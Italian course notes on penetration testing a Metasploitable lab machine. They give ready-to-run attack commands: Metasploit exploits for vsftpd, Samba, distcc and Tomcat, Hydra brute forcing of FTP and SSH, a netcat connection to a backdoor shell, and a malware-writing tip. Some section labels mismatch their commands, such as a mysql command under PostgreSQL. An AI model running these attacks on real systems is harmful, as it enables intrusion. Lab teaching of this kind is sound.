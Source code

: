 # Lezione 30 maggio
Dal vulnerability assessment fatto in precedenza ricaviamo le informazioni per effettuare il penetration testing

2 elementi del report VA di OpenVAS ci interessano maggiormente:
- sezione **risultati**, sono tutte le vulnerabilità trovate definite per nome
- sezione **CVEs**, sono tutte le vulnerabilità trovate *definite per codice*

Ogni vulnerabilità dovrebbe essere testata! (Partendo dalla più grave)

```bash
sudo nmap -sV -O -p1-1024 --script vulners 192.168.1.245
```

**NB**. Non è detto che tutte le vulnerabilità siano sfruttabili, per questo dobbiamo testarle durante il penetration testing

In questa dimostrazione sfrutteremo delle vulnerabilità sul servizio **vsftpd 2.3.4** esposto nella porta **21** della Metasploitable

Per testare le vulnerabilità utilizzeremo il **framework Metasploit**

##### Qual è la differenza tra Exploit e Payload?
**EXPLOIT** è la vulnerabilità che noi utilizziamo per entrare nel sistema
**PAYLOAD** è il codice effettivo per mandare in esecuzione l'exploit, **un exploit infatti può avere più payload** 

```bash
search vsftpd	# per cercare degli exploit
use exploit/unix/ftp/vsftpd_234_backdoor	# per usare l'exploit
show options	# per vedere le opzioni configurabili dell'exploit
set RHOST 192.168.1.245		# settiamo l'ip del target
exploit		# per lanciare l'exploit
```

A questo punto, se l'exploit è andato a buon fine, MSF **avrà aperto una sessione tra la nostra macchina e quella vittima**.

**NB**. Senza aprire file (che magari non ci è permesso da contratto) dovremmo dimostrare al cliente di essere entrati nella macchina, ad esempio con degli **screenshots**

**NB2**. È importante **documentare passo passo ciò che facciamo**!

<br>

#### Utente Anonimo
Un altra vulnerabilità che possiamo andare a sfruttare è la **CVE-1999-0497** che permette di collegersi con **utente anonimo** al servizio FTP
```bash
ftp 192.168.1.245
>>> user: anonymous
>>> psw: 
# Siamo dentro la macchina senza aver inserito delle credenziali 
```

<br>

#### FTP bruteforce - Hydra
Questo specifico servizio FTP è anche vulnerabile ad un **attacco bruteforce**. Per lanciare questo genere di attacco utilizziamo **hydra**

```bash	
hydra -L /usr/share/wordlists/metasploit/http_default_users.txt -P /usr/share/wordlists/metasploit/http_default_pass.txt 192.168.1.245 ftp -V

# Per questo attacco bruteforce utilizzeremo un wordlist per le password e una per gli utenti
```

In questo caso abbiamo trovato che la combinazione **user** - **user** ci permette di accedere al servizio FTP

<br>

#### SSH bruteforce
Utilizziamo lo stesso comando di prima, cambiando però il servizio che deve essere attaccato

```bash	
hydra -L /usr/share/wordlists/metasploit/http_default_users.txt -P /usr/share/wordlists/metasploit/http_default_pass.txt 192.168.1.245 ssh -V
```

Anche in questo caso abbiamo trovato che la combinazione **user** - **user** ci permette di entrare nel servizio SSH

<br>

#### SAMBA - CVE-2007-2447
Questa vulnerabilità permette un attacco di tipo **remote shell command execution**, proviamo a sfruttarla tramite MSF

**NB**. È importante avere sempre la versione più aggiornata di Metasploit

```bash
search CVE-2007-2447	# per cercare direttamente tramite CVE
use exploit/multi/samba/usermap_script
set RHOST 192.168.1.245
run		# lanciamo l'exploit
```

<br>

#### PostgreSQL weak password
Questa vulnerabilità permetterebbe di connetersi al database utilizzando l'**username root** e **password vuota**

```bash
mysql -u root -p -h 192.168.1.245   # per conneterci al DB come root
```

<br>

#### Backdoor Ingreslock
**NB**. **netcat** ci permette di aprire delle comunicazioni tra la macchina host e la vittima

```bash
nc 192.168.1.245 1524
```

Abbiamo ora una remote shell a nostra disposizione

<br>

#### DistCC Remote Code Execution - CVE-2004-2687
Permette di eseguire codice nella macchina da remoto

Per questo attacco utilizziamo **msfconsole** questa volta però **specificando un payload**.

```bash
search CVE-2004-2687
use unix/misc/distcc_exec
set RHOST 192.168.1.245
show payloads		# per mostrare i payload disponibili per questo exploit
set payload cmd/unix/bind_ruby		# per settare il payload
run
```

**NB**. I payload vengono scritti prevalentemente in **PERL**, **RUBY** o **PYTHON**

Questo ci mostra come spesso un exploit potrebbe non funzionare con il payload di default ma potrebbe invece avere successo con un altro payload

<br>

#### Apache Tomcat (Ghostcat) - CVE-2020-1938
In questo caso vediamo che ci sono più opzioni da configurare per utilizzare questo payload, e dobbiamo anche modificare la porta

```bash
use exploit/multi/http/tomcat_mgr_upload 
set RPORT 8180
set RHOST 192.168.1.245
set HttpPassword tomcat
set HttpUsername tomcat
show targets	# per mostrare i possibili target dell'exploit
set target 0
```

<br>

#### VNC brute force login
```bash
search VNC login
use auxiliary/scanner/vnc/vnc_login 
set RHOST 192.168.1.245
```

Proviamo a conneterci al servizio VNC tramite **vncviewer** inserendo la password **password** (trovata grazie l'exploit)

<br>

### Armitage
Questo programma permette di utilizzare metasploit tramite interfaccia grafica

<br>

**NB**. All'interno del codice di un malware **non bisogna mai importare librerie esterne** ma bisogna sempre **riscrivere il codice di quest'ultima**, poichè nel computer vittima potrebbe non essere possibile linkare dinamicamente altre librerie

*vedi screenshot malware prof su desktop*
